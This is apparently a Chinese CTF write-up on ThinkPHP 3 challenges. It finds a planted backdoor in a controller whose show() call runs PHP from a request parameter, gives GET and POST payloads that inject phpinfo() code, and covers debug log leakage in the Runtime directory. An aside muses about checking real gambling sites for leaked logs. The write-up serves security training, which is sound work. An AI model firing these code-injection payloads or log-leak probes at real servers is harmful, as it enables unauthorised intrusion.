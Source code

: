 ```
hello,thinkphp!
```

> 这里我发现：定义的类名为`IndexController`，访问的时候却可以省略`Controller`，直接访问`Index`，奇怪了？

在 ThinkPHP 中，类名后缀 Controller 可以在访问 URL 时省略，是因为框架在内部处理请求时，会自动加上这个后缀来寻找对应的控制器类。框架遵循一定的命名约定，自动匹配用户输入的控制器名称和带有 Controller 后缀的类名。

回归主题：找到控制器后门

丢进d盾，竟然没找到

在`Admin/Controller/`路由下存在两个php文件，内容基本一下，没有看到接受参数，应该不是后门

![10](https://the0n3.top/medias/show-think/10.png)

最终可以在`Home/Controller/IndexController.class.php`文件里找到后门`show方法`，会解析php代码

在这里，可以知道后门函数处于Home模块的IndexController控制器，不理解的是为什么这个函数可以接受GET、POST参数

```php
<?php
namespace Home\Controller;
use Think\Controller;
class IndexController extends Controller {
    public function index($n=''){
        $this->show($n);
    }

}
```

![11](https://the0n3.top/medias/show-think/11.png)

这两种都可以

GET：`url/index.php/Home/Index/index/?n=<?php phpinfo();?>`

POST：`url/index.php/Home/Index/index/` +  `n=<?php phpinfo();?>`

为什么这种不行？？也就是上面提到的pathinfo模式

GET：`url/index.php/Home/Index/index/n/<?php phpinfo();?>`


## web 572

> 描述：hello,没有源码，如何获取黑客的蛛丝马迹？

信息泄露挖掘，thinkphp3在调试模式下会记录详细的日志信息

> thinkphp在开启DEBUG的情况下会在Runtime目录下生成日志，虽然Thinkphp官方一再强调生产模式下需要关闭debug，但很多管理员还是忘记关闭。

似乎是这样的，那是不是说看到鲷鱼瑟琴菠菜类网站是tp框架可以看看是否忘记关闭了调试模式呢（若有所思）

谷歌一下[日志记录](https://www.kancloud.cn/manual/thinkphp/1827)

[thinkphp日志泄露](https://www.cnblogs.com/Cl0ud/p/15941252.html)
